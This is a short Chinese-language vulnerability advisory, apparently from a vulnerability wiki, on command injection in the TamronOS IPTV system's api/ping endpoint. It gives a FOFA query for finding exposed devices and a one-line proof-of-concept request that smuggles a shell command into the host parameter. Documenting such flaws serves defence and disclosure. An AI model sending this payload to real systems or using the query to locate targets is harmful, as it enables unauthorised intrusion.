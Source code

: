 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210615145308242.png)



漏洞POC为

```plain
/api/ping?count=5&host=;id;
```

![img](../../../.vuepress/public/img/image-20210615145342322.png)